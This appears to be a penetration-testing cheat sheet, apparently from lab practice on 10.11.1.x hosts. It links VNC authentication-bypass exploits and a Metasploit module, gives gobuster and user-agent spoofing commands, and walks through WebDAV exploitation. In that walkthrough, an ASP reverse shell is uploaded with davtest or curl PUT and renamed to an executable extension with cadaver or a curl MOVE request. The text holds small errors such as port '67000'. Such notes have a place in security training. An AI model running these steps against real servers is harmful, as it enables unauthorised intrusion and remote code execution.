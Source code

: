 VNC authentication bypass:
```bash
# First, check if VNC service is vulnerable to auth bypass:
https://github.com/curesec/tools/blob/master/vnc/vnc-authentication-bypass.py
# If vulnerable, run manual exploit:
https://github.com/arm13/exploits-1/blob/master/vncpwn.py
# If that doesn't work, try MSF module:
msf> use auxiliary/admin/vnc/realvnc_41_bypass
```

VNC password cracking:
* https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/


### IRC - TCP 6660-6669,6697,67000

IRC enum:
* Start `hexchat` in Kali.
* Add IRC channel `TargetIP/6697` + connect to channel.
* View output/look for version numbersc -> searchsploit/Google

# WEB

```bash
$ wget https://example.com --no-check-certificate   # Wget from HTTPS sites
$ curl -i -L 10.11.1.71                             # Follow re-directs
$ gobuster -u http://10.11.1.71 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

Denied from accessing `/robots.txt`?
* Try change the user agent i.e. `curl -v http://10.11.1.39/robots.txt -H "User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)"`

Exploit code not working? Try:
* Full directory paths to binaries and your files e.g. `/usr/bin/wget http:example.com -o /full/path/to/file.txt`

WEBDAV vulns - using tools . 
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp  
http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html  
```bash
$ davtest -url 10.11..113                                 # test for webdav vulns
$ davtest -url http://10.11.1.13                          # upload file from local to remote dir (HTTP PUT)
          -uploadfile rshell.asp -uploadloc rshell.html
$ cadaver
dav:!> open 10.11.1.13                                    # open connection to URL
dav:!> move '/rshell.txt' to '/rshell.asp'                # move .txt -> .asp (now executable)
```

WEBDAV vulns - manual
```bash
$ curl -T '/path/to/local/file.txt' 'http://10.11.1.13/'                              # upload file to remote
$ curl -v -X MOVE -H 'Destination: http://10.11.1.13/[new]' 'http://10.11.1.13/[old]' # move .ext1 -> .ext2
```
